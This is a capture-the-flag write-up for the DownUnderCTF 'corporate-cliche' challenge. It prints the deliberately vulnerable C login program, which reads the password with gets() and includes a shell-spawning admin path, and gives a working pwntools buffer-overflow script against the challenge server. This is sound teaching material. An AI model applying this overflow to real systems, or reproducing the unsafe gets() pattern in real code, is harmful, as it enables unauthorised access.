 # RE: corporate-cliche

## The Challenge

Dear Jelly,

It's time to really **push the envelope** and go **above and beyond**! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,  
Blue Alder

AU: `nc chal.2025.ductf.net 30000`  
US: `nc chal.2025-us.ductf.net 30000`

---
## Code Analysis
For this challenge, we are given two files:
- `email_server`, and
- `email_server.c`

We can reason that these two files are the executable, and C language source code for said executable. We confirm this by opening `email_server` in a text editor:

![[corporate-cliche-1.png]]
As expected, we see what we expect to see when opening a binary file in a text editor.  The "ELF" at the start of the file confirms that this is a Linux executable (Executable and Linkable Format).

It's time to take a closer look at the `email_server.c` file, since looking at the code will give us clues on how to exploit the program.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}
```

Here's a breakdown of what it does:
1. **User Input Handling**: It reads a username and password from the user.
2. **Admin Check**: If the username is "admin", it immediately rejects the login.
3. **Password Verification**: It checks if the entered credentials match any in the predefined `logins` array.
## The Exploit Plan
Straight away we can identify the weakness and avenue for exploit.

```
    char password[32];
    char username[32];

...

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);
```

For those that missed it, let me break this down...

The variable `password` stores its values in a 32-character array (or, a buffer). The issue lies in the use of `gets()` for password input, which doesn't check the length of the input, allowing for buffer overflow. That is to say, if we try to cram more than 32 characters into the `password` variable, we'll overflow the allocated memory for that variable and start writing to other memory locations. Specifically, we'll overwrite the `username` variable, since that just happens to be how the program will place these variables in memory (notice how the `password` variable was declared before `username`).

Our goal is to log in as "guest" but somehow bypass the admin check. Here's how we'll do it:
1. **Login as Guest**: First, we'll log in as "guest".
2. **Buffer Overflow**: Then, we'll send a password that's longer than the buffer size, causing it to overflow into the username buffer.
3. **Overwrite Username**: By carefully crafting our payload, we'll overwrite the username buffer with "admin".
## Crafting the Payload

To make a payload that works, we need send the correct password for the 'admin' user, followed by the null terminator (`\0x00`), then some padding to fill up the remaining characters until we get to 32, and finally the admin username 'admin'. The problem is we can't type the null terminator into the command line.

We'll write a Python script to interact with the email server. The script will open the connection to the server, then send the username `guest` to login. Finally, the script will send our crafted payload to set the admin password, overflow the buffer, and set the username to `admin`.

```
from pwn import *

p = remote("chal.2025.ductf.net", 30000)

p.sendline(b"guest")

payload = (
    b"\xf0\x9f\x87\xa6" +  # 🇦
    b"\xf0\x9f\x87\xa9" +  # 🇩
    b"\xf0\x9f\x87\xb2" +  # 🇲
    b"\xf0\x9f\x87\xae" +  # 🇮
    b"\xf0\x9f\x87\xb3" +  # 🇳
    b"\x00" +              # null terminator (works here!)
    b"A" * (32 - 21) +
    b"admin"
)

p.sendline(payload)

p.interactive()
```

## The Result
When we executed the script, it successfully logs us in as "admin" and opens a shell. Inside the shell, we find a `flag.txt` file containing the flag:

![[corportate-cliche-2.png]]
### Conclusion
This challenge demonstrates the dangers of using unsafe functions like `gets()` and the importance of validating user inputs. It also shows how buffer overflows can be used to manipulate program execution, even in seemingly secure systems.
